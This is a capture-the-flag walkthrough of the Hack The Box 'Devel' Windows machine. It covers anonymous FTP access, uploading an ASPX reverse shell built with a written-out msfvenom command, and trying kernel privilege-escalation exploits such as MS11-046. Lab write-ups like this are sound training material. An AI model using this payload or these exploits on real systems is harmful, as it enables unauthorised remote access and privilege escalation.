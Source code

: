 # Hack The Box - Devel walkthrough

![](/photos/devel-photos/devel.png)

Today I am writing a walkthrough of the retired Devel machine of Hack The box.  
It is a Windows based machine.  
This machine has a static IP address <10.10.10.5>  
It was a nice easy and interesting machine.  
  
You have to found **user.txt** and **root.txt** flag. 

## Penetration Methodology

* Scanning
  * open ports, versions and services
* Enumeration
  * ftp enumeration
  * http enumeration
  * execute reverse shell
* Post Exploitation
  * user flag
  * root flag

## Scanning

Let's start our nmap to know about **open ports**, **versions** and **services** running on the machine.

![](/photos/devel-photos/devel-nmap.png)

Now we are done with our nmap.  

## Enumeration

As nmap shows us that ftp service is open and  
we can login to ftp with anonymous user.

![](/photos/devel-photos/ftp-acess.png)

As we can see that there is image name **welcome.png**  
Let's try we can access that image from the website or not.

**Wow**  
we can access ftp files from website. 

![](/photos/devel-photos/welcome.png)

Now let's upload our reverse shell on ftp server
But first check about the version and type of file which we can run on the website.

![](/photos/devel-photos/asp.png)

As we can see that this is a asp.net website.  
We can now upload our aspx reverse shell on ftp server.  
But first we have to generate it using **msfvenom**

`msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444 -f aspx > shell.aspx`

Now let's upload the aspx shell to ftp.

![](/photos/devel-photos/ftp-shell.png)

Let's execute our **aspx shell** from the website.  
Before executing start the listener.  

**Hey we got the shell**  
We are now **iis apppool\web**

![](/photos/devel-photos/shell.png)

## Post Exploitation

Let's enumerate for user flag  
Right now we can't read any flag so let's escalate our privelages.

![](/photos/devel-photos/denied.png)

Let's try **windwos-exploit suggestor** copy systeminfo and try with that.

as **windwos-exploit suggestor** suggests us a bunch of exploit.  
So let's try MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege.  

It didnt work.  
let's try another exploit [MS11-046](https://www.exploit-db.com/download/40564)  






